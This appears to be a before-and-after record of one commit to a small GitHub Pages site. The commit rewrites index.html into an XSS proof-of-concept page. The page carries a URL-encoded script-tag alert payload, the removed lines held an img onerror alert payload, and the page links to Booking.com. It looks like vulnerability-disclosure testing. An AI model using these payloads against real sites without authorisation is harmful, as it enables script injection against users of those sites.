

Before and after one commit to vldevadath/bugtest, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-663 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,4 +1,23 @@
-<!-- Visit from your domain -->
-        http://https://vldevadath.github.io/bugtest/?%3Cimg%20src%20onerror%3Dalert(1)%3E
-        <!-- Link back to site from your domain -->
-        <a href="https://www.booking.com/index.en-gb.html?aid=304142&amp;sid=d9cee73db5f4b5a757c37c5c58f7472a#indexsearch}">PoC</a>
+<!DOCTYPE html>
+<html lang="en">
+<head>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>PoC for XSS</title>
+</head>
+<body>
+    <h1>Proof of Concept for XSS</h1>
+    <p>Click the link below to test the PoC:</p>
+
+    <!-- Visit from your domain -->
+    <a href="https://vldevadath.github.io/bugtest/?%3Cscript%3Ealert('XSS%20Vulnerability%20Detected!')%3C/script%3E">
+        <strong>PoC Link</strong>
+    </a>
+
+    <p>Link back to Booking.com:</p>
+    <!-- Link back to Booking.com -->
+    <a href="https://www.booking.com/index.en-gb.html?aid=304142&amp;sid=d9cee73db5f4b5a757c37c5c58f7472a#indexsearch">
+        Booking.com Link
+    </a>
+</body>
+</html>
```
